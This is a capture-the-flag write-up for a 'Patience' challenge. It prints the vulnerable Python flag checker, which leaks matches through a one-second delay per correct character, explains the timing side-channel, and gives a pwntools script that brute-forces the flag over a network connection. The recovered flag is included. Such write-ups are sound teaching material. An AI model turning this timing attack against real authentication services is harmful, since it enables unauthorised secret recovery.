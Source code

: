 # Pwn 100 - Patience

Here we are given a netcat server and, presumably, the python code that is running on it:

```
Connect via nc 40.76.33.15 31337
```

```python2
#!/usr/bin/env python2
import sys
import time

if __name__ == '__main__':
    flag = '' # REDACTED

    print 'Can you beat the clock with this timing attack?'
    sys.stdout.flush()


    inp = sys.stdin.readline().strip()

    if len(flag) != len( inp ):
        exit('RIP, your flag is not the correct length!')

    for i in range(0, len(flag)):
        if flag[i] != inp[i]:
            exit('Wrong flag!')

        time.sleep(1)

    print 'Correct Flag!'
    sys.stdout.flush()
 ```
 
 Reading and reversing the python code, what it does is simple. It reads our input, then checks if the length of our input is the same length as the flag. If not, it exits. Otherwise, it checks our input with the flag sequentially starting from the first character. After each successful check, the program waits 1 second, otherwise it exits.
 
 The solution is simple: brute force every character, and if the program pauses for about an extra second, then we know the character we just tried is part of the flag.
 
 Next we just have to write a program to automate this. I chose to use python, pwntools, and elite haxor scripting skills:
 
 ```python
 from pwn import *
import time
import string

def trylen(flag):
	print "Try: " + flag
	r = remote("40.76.33.15", 31337)
	start = time.time()
	r.sendline(flag + "A"*(23-len(flag)))
	r.recvuntil("Wrong flag!", timeout=30)
	end = time.time()
	r.close()
	print end - start
	return end - start

print string.printable
flag = ""
curtime = trylen(flag)
print curtime
while True:
	for i in string.printable:
		test = trylen(flag + i)
		if abs(test - curtime) > 0.5:
			flag += i
			print flag
			curtime = trylen(flag)
			break
```

Note: this program took a long time to run because as we guess more characters, each subsequent attempt would take 1 second longer. So, when we brute approximately 100 characters for every value, well, you can imagine that it would take a while to finish.

## Flag
### b0ctf{ticky_t0cky_t0cz}
